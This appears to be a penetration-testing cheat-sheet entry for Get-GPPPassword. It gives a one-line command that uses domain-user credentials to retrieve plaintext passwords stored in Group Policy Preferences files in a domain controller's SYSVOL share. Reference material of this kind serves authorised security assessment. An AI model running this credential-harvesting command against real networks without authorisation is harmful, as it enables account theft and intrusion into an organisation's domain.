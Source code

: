 # Get-GPPPassword

% get-gpppassword, sysvol, Active Directory

## Find GPP passwords in SYSVOL
#assessment/AD #attack_type/Quickwin #port/445 #port/139 #protocol/smb #access/Domain_user

Retrieves plaintext passwords and other information for accounts pushed through Group Policy Preferences.

```bash
Get-GPPPassword.py <domain>/<user>:<password>@<dc-ip>
```

= ip: 192.168.1.0/24
= dc-ip: $DC_IP
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN


